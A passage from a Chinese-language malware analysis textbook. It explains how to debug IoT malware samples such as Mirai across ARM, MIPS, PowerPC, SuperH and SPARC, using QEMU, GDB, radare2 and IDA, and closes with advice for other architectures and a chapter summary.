如果样本是动态链接的，则可能需要单独安装额外的 ARM 库，例如，使用 `armel` 可以代替 `armhf`（针对 ARM 7 以下版本）用于 32 位 ARM，或者分别为 32 位和 64 位 ARM 提供 `/usr/arm-linux-gnueabihf` 或 `/usr/arm-linux-gnueabi` 和 `/usr/aarch64-linux-gnu`）可以通过使用 `-L` 参数或设置 `QEMU_LD_PREFIX` 环境变量来提供。

现在，便可以通过其他调试器连接到这个样本，例如，可以从另一个终端使用 `radare2`：

```
r2 -a arm -b 32 -d gdb://127.0.0.1:1234
```

IDA 也支持 ARM 架构的远程 GDB 调试器：



图 11.24 – IDA 中适用于 32 位 ARM 示例的可用调试器

在可以连接到该服务器之前，必须为指定的目标平台编译 GDB；此处流行的解决方案是使用通用的 **gdb-multiarch** 工具。

## MIPS

MIPS 架构在现代依然流行，因此支持它的工具数量也在不断增加。虽然 Hopper 和 Relyze 目前不支持它，但 Binary Ninja 已将其列为支持的架构之一。当然，像 IDA 或 `radare2` 这样的解决方案也可以使用。

在动态分析方面，情况变得更加复杂。例如，IDA 仍然没有为该架构提供专用的调试服务器工具。同样，在这种情况下，工程师主要需要依赖 QEMU 仿真，配合 IDA 的远程 GDB 调试器、`radare2` 或 GDB 本身。

要使用 GDB 本身连接到 GDB 服务器，需要在启动后使用以下命令：

```
target remote 127.0.0.1:1234 file <path_to_executable>
```

一旦连接成功，就可以开始分析样本。

## PowerPC

与前两个案例一样，静态分析在这里不是一个大问题，因为有多个工具支持 PPC 架构，例如 `radare2`、IDA、Binary Ninja、ODA 或 Hopper。在动态分析方面，结合 QEMU 和 IDA 或 GDB 就能解决问题：



图 11.25 – 通过 QEMU GDB 服务器在 Windows 上使用 IDA 调试 PowerPC 的 Mirai（x86）

如我们所见，较为冷门的架构可能需要更复杂的设置才能进行舒适的调试。

## SuperH

SuperH（也称为 Renesas SH）是多个指令集的统称（例如 SH-1、SH-2、SH-2A 等），因此有必要仔细检查需要仿真的具体是哪一个。大多数样本应该能在 SH4 上正常工作，因为这些 CPU 核心应该是向后兼容的。该架构不是攻击者或逆向工程师的首选，因此可用的工具范围可能较为有限。对于静态分析，建议使用像 `radare2`、IDA 或 ODA 这样的解决方案。由于 IDA 似乎没有为该架构提供远程 GDB 调试器功能，因此动态分析必须通过 QEMU 配合 `radare2` 或 GDB 来处理，方式与我们之前描述的相同：



图 11.26 – 使用 radare2 和 QEMU 在 x86 虚拟机上调试 Mirai（针对 SuperH）

如果由于某些原因，二进制仿真无法正常工作，那么可能需要获取实际硬件，并在硬件上进行调试，或者通过使用 GDB 服务器功能远程调试。

## SPARC

SPARC 架构在 2017 年由 Oracle 终止，但仍有许多设备实现了该架构。支持该架构的静态分析工具数量非常有限，因此主要使用像 ODA、`radare2`、Ghidra 和 IDA 这样的通用解决方案是有意义的。对于动态分析，可以像我们之前描述的那样，使用 QEMU 和 GDB，因为目前看起来`radare2`和 IDA 都不支持该架构的 GDB 调试器：



图 11.27 – 在 x86 虚拟机上使用带 TUI 和 QEMU 的 GDB 调试 Mirai 样本以支持 SPARC 架构

可以使用各种 GDB 语法高亮工具，使调试过程更加愉快。

现在，你已经知道如何处理 IoT 恶意软件家族所针对的最常见架构。在接下来的部分中，我们将讨论如何处理这里没有涵盖的其他问题。

# 处理其他架构

如果在某个阶段，你需要分析一个不属于上述任何架构的样本，应该怎么办？目前有许多其他可用的选项，而且未来可能会有更多新的出现。只要这些设备具有足够的数量（或者这些设备对攻击者具有特别的潜在兴趣），尤其是如果它们的支持能够相对简单地添加，迟早，利用其功能的新恶意软件家族就可能会出现。在这一部分，我们将提供处理几乎任何架构的恶意软件的指南。

## 从哪里开始

首先，确定样本的确切架构；为此，像`file`这样的开源工具将非常有效。接下来，检查这种架构是否得到最流行的静态和动态分析逆向工程工具的支持。IDA、Ghidra、`radare2`和 GDB 可能是完成此任务的最佳候选工具，因为它们支持的架构数量令人印象深刻，输出质量非常高，并且在某些情况下，能够在一个地方同时进行静态和动态分析：


图 11.28 – 描述指定架构参数的 radare2 主页

调试功能可能大大加速分析过程，因此检查是否可以为所需架构进行相应的设置是很有意义的。这可能涉及在物理机器或如 QEMU 这样的模拟器上运行样本，并通过本地或远程连接到它。检查是否有本地架构的调试工具；是 GDB，还是其他工具？一些工程师更喜欢使用更高端的工具，如 IDA 与 GDB 结合使用，但分开使用（即只用 GDB 调试特定代码块，同时在 IDA 中保持标记知识库）。

当你获得反汇编结果时，检查当前管理该架构的实体。然后，查找他们网站上描述该架构的官方文档，特别是描述寄存器、组和支持指令的语法部分。通常，你越有时间熟悉细节，后续分析所花的时间就越少。

最后，千万不要羞于快速搜索从样本中提取的独特字符串，因为总有可能其他人已经遇到并分析过它。此外，某个样本可能也适用于更广泛的架构。

# 总结

在本章中，我们熟悉了针对非 Windows 系统（如 Linux）的恶意软件，这些系统通常用于物联网设备。首先，我们讲解了 ELF 结构的基础知识，并讨论了系统调用。接着，我们描述了跨多个平台共享的一般恶意软件行为模式，回顾了一些最常见的例子，并介绍了在静态和动态分析中使用的常见工具和技术。

然后，我们研究了 Mirai 恶意软件，并通过使用它作为例子，应用我们新获得的知识，理解其行为的各个方面。最后，我们总结了针对最常见 RISC 平台及其他平台的恶意软件静态和动态分析中使用的技术。到此为止，你应该具备了足够的基础知识，能够开始分析与几乎任何常见架构相关的恶意软件。

在*第十二章*《macOS 和 iOS 威胁简介》中，我们将介绍针对 Apple 系统的恶意软件，因为这种情况现在变得越来越普遍。
